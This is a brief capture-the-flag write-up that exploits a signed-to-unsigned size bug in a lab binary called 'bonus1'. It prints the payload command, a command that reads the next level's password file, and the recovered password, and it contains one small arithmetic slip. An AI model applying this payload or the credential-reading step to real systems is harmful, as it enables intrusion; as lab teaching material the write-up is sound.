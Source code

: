 # Write up

Small reminder (again) :
```
scp -P 4242 bonus1@192.168.0.33:bonus1 bin11
objdump -M intel -d bin11 > asm11_intel.txt
```

Here we have a check with the argv1 atoi result and `1464814662`.
However the atoi max value is 9, the memcpy call can read at most `9 * 4` chars, so 38, but we need 40 chars to overflow the buffer (and overwrite the stored atoi int).
We quickly notice that we can cause an underflow since there is no check for under 0 variable : 
```
$ ./bonus1 -1 ""
Segmentation fault (core dumped)
```
We need 44 bytes to overwrite the atoi value. (We can take more, but here we do the things good)
memcpy uses a size_t, which is an uint_32t on 32-bit systems.
We need to get an int value which gives 11 in unsigned in order to have 44 bytes copied, then we inject `\x46\x4c\x4f\x57` to bypass the condition.
Here we go :
```
Using this website : https://www.binaryconvert.com/result_signed_int.html?hexadecimal=8000000B
We get this number : -2147483637 which is 11 in unsigned excluding the sign bit.
Sample payload :
./bonus1 -2147483637 `python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"'`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
Done, gg ez